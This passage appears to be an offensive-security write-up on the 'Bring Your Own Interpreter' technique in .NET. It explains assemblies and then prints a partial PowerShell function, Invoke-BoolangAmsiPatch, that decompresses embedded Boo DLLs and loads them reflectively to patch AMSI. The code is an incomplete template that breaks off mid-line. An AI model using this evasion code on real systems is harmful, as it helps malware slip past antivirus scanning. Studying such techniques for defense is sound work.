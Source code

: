### 1 - Introduction 

**What is .NET Assemblies :**

Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications. An assembly is a collection of types and resources that are built to work together and form a logical unit of functionality. Assemblies take the form of executable (.exe) or dynamic link library (.dll) files, and are the building blocks of .NET applications. 
They provide the common language runtime with the information it needs to be aware of type implementations.



- .NET assemblies can be executed by any .NET langage
- The function `Assembly.Load()` will reflectively load .NET Assemblies

>⚠️  **.NET Format Assemblies ≠ C Format Assemblies**

### 2 - BYOI Concept

this technique which was discovered [byt3bl33d3r](https://github.com/byt3bl33d3r) consists in using third party parts of the languages present in .NET for embedding a interpreter into a default .NET langage

```powershell
function Invoke-BoolangAmsiPatch {
    $BooLangDLL = @'<BOOLANG_DLL>'@
    $BooLangCompilerDLL = @'<BOOLANG_COMPILER_DLL>'@
    $BooLangParserDLL = @'<BOOLANG_PARSER_DLL>'@
    $BoolangExtensionsDLL = @'<BOOLANG_EXTENSION_DLL>'@

    function Load-Assembly($EncodedCompressedFile){
        $DeflatedStream = [IO.Compression.DeflateStream]::new([IO.MemoryStream][Convert]::FromBase64String($EncodedCompressedFile), [IO.Compression.CompressionMode]::Decompress)
        $UncompressedFileBytes = New-Object Byte[] (1900000)
        $DeflatedStream.Read($UncompressedFileBytes, 0, 1900000) | Out-Null
        return [Reflection.Assembly]::Load($UncompressedFileBytes)
    }
    $BooLangAsm = Load-Assembly($BooLangDLL)
    $BooLangCompilerAsm = Load-Assembly($BooLangCompilerDLL)
    $BooLangParserAsm = Load-Assembly($BooLangParserDLL)
    $
}
```
